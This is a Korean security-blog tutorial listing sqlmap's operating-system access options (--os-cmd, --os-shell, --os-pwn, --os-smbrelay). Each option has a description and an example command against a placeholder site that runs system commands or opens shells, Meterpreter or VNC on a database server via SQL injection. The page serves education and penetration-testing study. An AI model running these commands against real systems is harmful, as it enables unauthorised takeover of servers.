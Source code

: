 ```yaml
---
layout: single
title:  "SQLi-sqlma 옵션 리스트 03"
categories: SQLi
tag: [SQLi, sqlmap, 이론, 옵션]
toc: true
author_profile: false
---
```


**[공지사항]** [본 블로그에 포함된 모든 정보는 교육 목적으로만 제공됩니다.](https://weoooo.github.io/notice/notice/)
{: .notice--danger}

**[SQLi-sqlma 옵션 리스트 01]**[SQLi-sqlma 옵션 리스트 01로 이동 합니다.](https://weoooo.github.io/sqli/SQLi-sqlmap-otion-01/)
{: .notice--success}

## 운영 체제 접근(Operating system access)

이 옵션들은 백엔드 데이터베이스 관리 시스템의 운영 체제에 접근하는 데 사용됩니다.

1. **--os-cmd=OSCMD**:
   
   **설명**: 운영 체제 명령을 실행합니다.
   {: .notice--danger}
   **사용법**: 데이터베이스 서버에서 직접 운영 체제 명령을 실행하려고 할 때 사용합니다.
   {: .notice--danger}
   **예제**: `python sqlmap.py -u "http://www.site.com" --os-cmd="ipconfig"`
   {: .notice--danger}

2. **--os-shell**:
   
   **설명**: 인터랙티브 운영 체제 셸을 실행합니다.
   {: .notice--danger}
   **사용법**: 데이터베이스 서버의 운영 체제 셸을 인터랙티브로 사용하고자 할 때 사용합니다.
   {: .notice--danger}
   **예제**: `python sqlmap.py -u "http://www.site.com" --os-shell`
   {: .notice--danger}

3. **--os-pwn**:
   
   **설명**: OOB 셸, Meterpreter 또는 VNC를 위한 프롬프트를 실행합니다.
   {: .notice--danger}
   **사용법**: 외부로부터 데이터베이스 서버의 셸을 장악하려고 할 때 사용합니다.
   {: .notice--danger}
   **예제**: `python sqlmap.py -u "http://www.site.com" --os-pwn`
   {: .notice--danger}

4. **--os-smbrelay**:
   
   **설명**: 한 번의 클릭으로 OOB 셸, Meterpreter 또는 VNC를 위한 프롬프트를 실행합니다.
   {: .notice--danger}
   **사용법**: SMB 릴레이 공격을 통해 셸을 장악하려고 할 때 사용합니다.
   {: .notice--danger}
   **예제**: `python sqlmap.py -u "http://www.site.com" --os-smbrelay`
   {: .notice--danger}
